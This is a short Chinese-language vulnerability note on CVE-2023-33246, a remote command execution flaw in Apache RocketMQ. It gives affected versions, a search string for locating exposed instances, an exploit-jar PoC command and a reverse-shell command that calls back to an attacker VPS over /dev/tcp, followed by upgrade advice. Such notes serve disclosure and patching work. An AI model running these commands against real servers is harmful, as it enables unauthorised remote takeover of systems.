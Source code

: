 # 

# Apache RocketMQ RCE 漏洞 CVE-2023-33246

## 漏洞描述

RocketMQ 是阿里巴巴在2012年开发的分布式消息中间件，专为万亿级超大规模的消息处理而设计，具有高吞吐量、低延迟、海量堆积、顺序收发等特点。

RocketMQ 5.1.0 及以下版本，在一定条件下存在远程命令执行风险。RocketMQ 的 NameServer、Broker、Controller 等多个组件暴露在外网且缺乏权限验证，攻击者可以利用该漏洞利用更新配置功能以 RocketMQ 运行的系统用户身份执行命令。此外，攻击者可以通过伪造 RocketMQ 协议内容来达到同样的效果。

## 漏洞影响

```
Apache RocketMQ <= 5.1.0
Apache RocketMQ <= 4.9.5
```

## 网络测绘

```
title="RocketMQ"
```

## 漏洞复现

poc：

```
java -jar CVE-2023-33246.jar -ip "target-ip" -cmd "command"
```

反弹 shell：

```
java -jar CVE-2023-33246.jar -ip "target-ip" -cmd "bash -i >& /dev/tcp/your-vps/9999 0>&1"
```

## 修复建议

目前官方已发布安全修复更新，受影响用户可以升级到Apache RocketMQ 5.1.1或者4.9.6。

链接：https://rocketmq.apache.org/download/

